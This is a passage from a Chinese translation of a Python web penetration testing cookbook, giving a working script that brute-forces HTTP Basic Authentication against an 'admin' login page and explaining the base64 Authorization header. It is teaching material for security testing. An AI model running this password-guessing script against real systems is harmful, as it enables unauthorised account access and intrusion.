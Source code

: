 示例的输出显示在以下屏幕截图中：

![工作原理...](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-web-pentest-cb/img/B04044_05_03.jpg)

# 通过 Authorization 标头暴力破解登录

许多网站使用 HTTP 基本身份验证来限制对内容的访问。这在嵌入式设备（如路由器）中尤其普遍。Python 的`requests`库内置支持基本身份验证，可以轻松创建身份验证暴力破解脚本的方法。

## 准备工作

在创建此示例之前，您需要一个密码列表来尝试进行身份验证。创建一个名为`passwords.txt`的本地文本文件，每个密码占一行。查看第二章中的在线资源中的密码列表，了解如何暴力破解密码。此外，花一些时间来勘察目标服务器，因为您需要知道它对失败的登录请求做出何种响应，以便我们可以区分暴力破解是否成功。

## 如何做...

以下代码将尝试通过基本身份验证暴力破解网站的入口：

```py
import requests
from requests.auth import HTTPBasicAuth

with open('passwords.txt') as passwords:
    for password in passwords.readlines():
        password = password.strip()
        req = requests.get('http://packtpub.com/admin_login.html', auth=HTTPBasicAuth('admin', password))
        if req.status_code == 401:
            print password, 'failed.'
        elif req.status_code == 200:
            print 'Login successful, password:', password
            break
        else:
            print 'Error occurred with', password
            break
```

## 工作原理...

这个脚本的第一部分逐行读取密码列表，然后发送一个 HTTP `GET`请求到登录页面：

```py
req = requests.get('http://packtpub.com/admin_login.html', auth=HTTPBasicAuth('admin', password))
```

这个请求有一个额外的`auth`参数，其中包含了用户名`admin`和从`passwords.txt`文件中读取的`password`。当发送带有基本`Authorization`头的 HTTP 请求时，原始数据看起来像下面这样：

![工作原理...](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-web-pentest-cb/img/B04044_05_04.jpg)

请注意，在`Authorization`头中，数据以编码格式发送，比如`YWRtaW46cGFzc3dvcmQx`。这是用户名和密码以`base64`编码形式的`username:password`；`requests.auth.HTTPBasicAuth`类只是为我们做了这个转换。这可以通过使用`base64`库来验证，如下面的截图所示：

![工作原理...](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-web-pentest-cb/img/B04044_05_05.jpg)
